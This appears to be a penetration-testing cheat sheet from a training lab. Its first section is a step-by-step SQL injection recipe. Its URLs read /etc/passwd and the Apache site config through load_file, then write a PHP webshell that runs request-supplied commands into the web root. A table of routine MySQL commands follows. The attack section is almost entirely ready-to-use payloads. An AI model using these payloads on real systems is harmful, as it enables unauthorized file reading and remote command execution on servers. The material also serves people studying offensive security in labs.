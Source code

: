 
## SQL Injection Webshell Upload

### Requirements: User has write access to the server via SQL injection

#### 1) 

    http://TARGET_IP/room.php?cod=-1 union select 1,load_file('/etc/passwd'),3,4,5,6,7 (Check for read access)

#### 2) 

    http://10.10.10.143/room.php?cod=-1 union select 1,load_file('/etc/apache2/sites-enabled/000-default.conf'),3,4,5,6,7 (Check for write access)


#### 3) 

    http://TARGET_IP/room.php?cod=-1 union select 1,'<?php system($_REQUEST["exec"]);?>',3,4,5,6,7 into outfile '/var/www/html/pwned.php' (Upload the webshell)

## MySQL

| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | login to mysql database |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| **Tables** |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |
| `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |
| **Columns** |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| **Output** |
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |